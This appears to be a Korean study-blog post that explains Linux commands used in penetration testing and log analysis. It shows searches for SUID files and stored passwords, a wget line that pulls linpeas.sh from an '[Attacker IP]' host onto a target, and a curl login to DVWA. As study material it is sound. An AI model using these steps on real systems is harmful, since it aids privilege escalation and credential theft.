 ```yaml
---
layout: post
title: "리눅스 명령어 공부"
date: 2025-09-02 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 기본적인 도구로 활용된다. 시스템 정보 수집, 서비스 확인, 스크립트 준비 등 다양한 작업이 터미널을 통해 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **`find`**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 유용하다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **`grep`**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **`ps`**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 이를 통해 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 수 있다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **`netstat`**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **`wget`**: 원격 서버의 파일을 다운로드하여 저장한다. 공격자 PC의 웹 서버에서 권한 상승 진단 스크립트(`linpeas.sh`)를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://[Attacker IP]:8000/linpeas.sh
    ```
*   **`curl`**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://[Attacker IP]/login.php
    ```

---

### 5. 기본 로그 분석

시스템에 남겨진 로그 파일을 분석하여 공격 시도나 비정상적인 활동을 탐지할 수 있다. `grep`, `tail`과 같은 명령어는 대량의 로그에서 유의미한 정보를 필터링하는 데 사용된다.

#### ***주요 로그 파일 (Ubuntu 기준)***
*   `/var/log/auth.log`: 사용자 로그인, `sudo` 명령어 사용 인증 관련 기록.
*   `/var/log/apache2/access.log`: 웹 서버 접속 기록.

#### ***로그 분석 예시***
*   **SSH 로그인 실패 기록 확인:**
    `/var/log/auth.log` 파일에서 "Failed password" 문자열을 검색하여 무차별 대입 공격 시도를 탐지한다.
    ```bash
    grep "Failed password" /var/log/auth.log
    ```
*   **특정 IP의 웹 서버 접근 기록 확인:**
    `access.log`에서 특정 IP의 접근 기록을 필터링한다.
    ```bash
    grep "[Attacker IP]" /var/log/apache2/access.log
    ```

이러한 로그 분석은 [A09: 보안 로깅 및 모니터링 실패](https://hamap0.github.io/projects/owasp-top-10/2025/09/02/A09_Security-Logging-and-Monitoring-Failures.html) 프로젝트에서 로그의 중요성을 이해하는 기반이 된다.


<hr class="short-rule">
